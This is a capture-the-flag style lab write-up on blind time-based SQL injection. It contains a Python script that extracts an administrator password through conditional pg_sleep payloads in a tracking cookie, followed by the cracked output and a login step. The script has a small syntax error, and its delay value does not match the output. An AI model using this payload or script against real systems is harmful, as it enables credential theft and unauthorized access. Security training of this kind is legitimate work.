 ### Fourteen Exercise 👆


![problem.PNG](/assets/SQLi/First/problem.PNG)

#### **To do**
```
 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.  
```


1. Manipulate last python script to crack password
```bash
#!/usr/bin/python3

from pwn import *
import requests, time, string, signal, sys


def handler_stop(sig, frame):
        print("\n\n[!] Saliendo... Bye")
        sys.exit(1)

def make_request():
    url = "<url>"
    characteres = string.ascii_lowercase + string.digits
    password = ""
    bar_1 = log.progress("Brute Force")
    bar_1.status("Starting Brute Force...")
    time.sleep(1)
    bar_2 = log.progress("Password")
    
    for i in range(1,21):
        for character in characteres:
            cookie = {"TrackingId": f"<Your TrackId>'||(select case when substring(password,{i},1) = '{character}' then pg_sleep(1.5) else pg_sleep(0) end from users where username='administrator')-- -",
                        "session": "<session>"}
            bar_1.status(cookie["TrackingId"])
            time_start = time.time()
            r = requests.get(url, cookies=cookie)   
            time_end = time.time()
            if ((time_end - time_start) > 1.5)):
                password += character
                bar_2.status(password)
                break
#Ctrl + C
signal.signal(signal.SIGINT, handler_stop)

if __name__ == "__main__":
        make_request()


```

* If the letter is correct the page await 1.5 seconds to response and the letter is concatenate in **password**

```bash
┌──(root㉿est)-[/home/kali/Desktop]
└─| python3 SQL_time.py
[├] Brute Force: aNi8t9y9BxgDIjb5'||(select case when substring(password,20,1) = 'y' then pg_sleep(3) else pg_sleep(0) end from users where username='administrator')-- -
[→] Password: yyjok5fypzubpv4e7roy
```


2. Finally login with credentials:
* **username**: administrator
* **password**: [output program]

![login.txt](/assets/SQLi/Eleven/login.PNG)